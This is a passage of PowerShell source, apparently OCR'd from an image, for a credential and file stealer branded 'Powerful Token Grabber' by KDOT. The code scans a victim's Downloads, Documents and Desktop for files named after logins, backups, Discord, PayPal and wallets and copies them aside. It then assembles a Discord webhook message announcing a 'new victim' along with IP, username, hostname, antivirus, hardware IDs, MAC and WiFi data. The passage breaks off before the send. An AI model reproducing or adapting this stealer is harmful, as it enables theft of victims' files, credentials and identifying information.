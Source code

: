     "login",
    "backup",
    "discord",
    "paypal",
    "wallet"
    )
    $dest = "$env:localappdata\Temp\Files Grabber"
    $paths = "$env:userprofile\Downloads", "$env:userprofile\Documents", "$env:userprofile\Desktop"
    [regex] $grab_regex = ‘(‘ + (($grabber |foreach {[regex]::escape($_)}) –join "|") + ")"
    (gci -path $paths -Include "*.pdf","*.txt","*.doc","*.csv","*.rtf","*.docx" -r | ? Length -lt 5mb) -match $grab_regex | Copy-Item -Destination $dest -Force
    }
    GrabFiles
    
    
    $embed_and_body = @{
        "username" = "KDOT"
        "content" = "@everyone"
        "title" = "KDOT"
        "description" = "Powerful Token Grabber"
        "color" = "16711680"
        "avatar_url" = "https://i.postimg.cc/m2SSKrBt/Logo.gif"
        "url" = "https://discord.gg/vk3rBhcj2y"
        "embeds" = @(
            @{
                "title" = "POWERSHELL GRABBER"
                "url" = "https://github.com/KDot227/Powershell-Token-Grabber/tree/main"
                "description" = "New victim info collected !"
                "color" = "16711680"
                "footer" = @{
                    "text" = "Made by KDOT, GODFATHER and CHAINSKI"
                }
                "thumbnail" = @{
                    "url" = "https://i.postimg.cc/m2SSKrBt/Logo.gif"
                }
                "fields" = @(
                    @{
                        "name" = ":satellite: IP"
                        "value" = "``````$ip``````"
                    },
                    @{
                        "name" = ":bust_in_silhouette: User Information"
                        "value" = "``````Date: $date `nLanguage: $lang `nUsername: $username `nHostname: $hostname``````"
                    },
					@{
                        "name" = ":shield: Antivirus"
                        "value" = "``````$avlist``````"
                    },
                    @{
                        "name" = ":computer: Hardware"
                        "value" = "``````Screen Size: $screen `nOS: $osversion `nOS Build: $osbuild `nOS Version: $displayversion `nManufacturer: $mfg `nModel: $model `nCPU: $cpu `nGPU: $gpu `nRAM: $raminfo `nHWID: $uuid `nMAC: $mac `nUptime: $uptime``````"
                    },
                    @{
                        "name" = ":floppy_disk: Disk"
                        "value" = "``````$alldiskinfo``````"
                    }
                    @{
                        "name" = ":signal_strength: WiFi"
                        "value" = "``````$wifi``````"
                    }
                )
            }